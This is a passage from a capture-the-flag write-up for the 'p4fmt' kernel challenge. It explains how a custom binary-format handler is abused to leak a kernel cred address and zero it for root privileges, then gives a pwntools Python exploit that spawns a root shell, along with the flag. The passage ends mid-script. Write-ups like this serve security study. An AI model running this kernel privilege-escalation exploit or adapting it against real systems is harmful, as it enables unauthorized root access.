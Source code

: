 #### Exploit
Generate a p4 binary for kernel memory leak first, then set up loads header of second p4 binary to trigger `_clear_user( bprm->cred | 8 + 0x10 , 0x48 ); // +0x10 prevent crashing caused by the NULL pointer`.
`install_exec_creds(bprm)` will call `commit_creds(bprm->cred);` and process our new `bprm->cred`, then execute our p4 binary with root privilege!
Execute shellocde and enjoy the root shell :D

#### Root shell
![](https://i.imgur.com/u1j3uNG.png)
exploit:
```python
#!/usr/bin/env python
from pwn import *
import base64
import re

# p4{4r3_y0U_4_81n4ry_N1njA?}

context.arch = 'amd64'
host , port = 'p4fmt.zajebistyc.tf' , 30002
y = remote( host , port )

def gen_p4_binary( version = 0 , arg = 1 , section_header_offset = 0x18 , sections_len = 0 , entry = 0 , sections = [] , code = '' ):
    b = 'P4' # MAGIC
    b += p8( version ) + p8( arg ) + p32( sections_len ) + p64( section_header_offset ) + p64( entry )
    b += ''.join( flat(s) for s in sections )
    if code:
        b = b.ljust( entry & 0xfff , '\0' )
        b += code
    return b

def sp( cmd ):
    y.sendlineafter( '$' , cmd )

def leak():
    sp( './leak' )
    y.recvuntil( 'length=' )
    cred = int( y.recvuntil( ',' )[:-1] , 16 )
    success( 'cred -> %s' % hex( cred ) )
    return cred

sp( 'cd /tmp' )

p4 = gen_p4_binary( section_header_offset = 0x90 , sections_len = 1 )
sp( "echo %s | base64 -d > ./leak" % ( base64.b64encode( p4 ) ) )
sp( 'chmod +x ./leak' )
cred = leak() # 1

p4 = gen_p4_binary( sections = [[0x7000000 | 7, 0x1000, 0], [cred | 8 + 0x10, 0x48, 0]] , sections_len = 2  , entry = 0x7000090 , code = asm( shellcraft.sh() ) )
sp( 'printf \'\\%s\' > ./pwn' % '\\'.join( oct( ord( _ ) )[1:].rjust( 3 ,'0' ) for _ in p4 ) )
sp( 'chmod +x ./pwn' )

'''
[+] cred -> 0xffff99cb021fa180
[+] cred -> 0xffff99cb021faf00
[+] cred -> 0xffff99cb021fab40
[+] cred -> 0xffff99cb021faa80
[+] cred -> 0xffff99cb021facc0

```